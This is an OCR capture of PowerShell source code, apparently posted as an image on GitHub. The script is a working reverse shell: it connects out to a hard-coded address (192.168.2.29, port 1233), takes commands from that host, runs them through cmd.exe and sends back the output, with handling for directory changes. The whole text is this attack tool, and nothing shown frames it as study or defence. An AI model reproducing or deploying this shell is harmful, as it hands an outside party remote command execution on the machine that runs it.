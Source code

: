 $client = New-Object System.Net.Sockets.TCPClient("192.168.2.29", 1233)
$stream = $client.GetStream()
$reader = New-Object System.IO.StreamReader($stream)
$writer = New-Object System.IO.StreamWriter($stream)
$writer.AutoFlush = $true

# Initialize the working directory
$workingDirectory = cd

while ($true) {
    try {
        # Send prompt with the current working directory
        $prompt = "$workingDirectory> "
        $writer.Write($prompt)
        
        # Read the command from the client
        $command = $reader.ReadLine()
        if ($command -eq "exit") { break }

        # Handle directory commands
        if ($command -match "^cd\s+(.*)$") {
            $newDirectory = $matches[1]
            if ($newDirectory -eq "..") {
                $workingDirectory = [System.IO.Path]::GetDirectoryName($workingDirectory)
            } elseif ($newDirectory -eq "\") {
                $workingDirectory = "C:\"
            } else {
                $fullPath = [System.IO.Path]::Combine($workingDirectory, $newDirectory)
                if (Test-Path $fullPath -and (Test-Path $fullPath -PathType Container)) {
                    $workingDirectory = $fullPath
                } else {
                    $writer.WriteLine("Error: Directory not found")
                }
            }
            continue
        }

        $output = & cmd.exe /c "cd $workingDirectory && $command" 2>&1

        # Format the output as a string and send it back to the client
        $formattedOutput = $output -join "`n"
        $writer.WriteLine($formattedOutput)
    } catch {
        $writer.WriteLine("Error: $_")
    }
}

$client.Close()
